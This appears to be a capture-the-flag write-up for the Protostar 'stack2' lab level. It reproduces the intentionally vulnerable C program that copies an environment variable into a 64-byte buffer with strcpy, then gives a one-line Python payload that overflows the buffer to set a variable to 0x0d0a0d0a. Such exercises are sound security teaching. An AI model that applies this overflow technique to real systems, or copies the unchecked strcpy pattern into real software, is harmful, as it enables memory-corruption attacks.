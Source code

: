 # Stack2

## Description

Stack2 looks at environment variables, and how they can be set.

This level is at `/opt/protostar/bin/stack2`

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Approach

This program read the variable called `GREENIE` and It compare the variable to buffer with help of `strcpy()` function. As we know that limited buffer space will cause the overflow in binaries. Also if we modified the variable to `0x0d0a0d0a`. This will be solved.

For more checkout the Linux Programmer's Manual (BUGS):

```bash
man 3 strcpy
```

## Exploitation

Make the payload and Export as a variable `GREENIE` than execute!

```bash
export GREENIE=`python -c 'import struct; print "A"*64+struct.pack("I",0x0d0a0d0a)'` && ./stack2
```
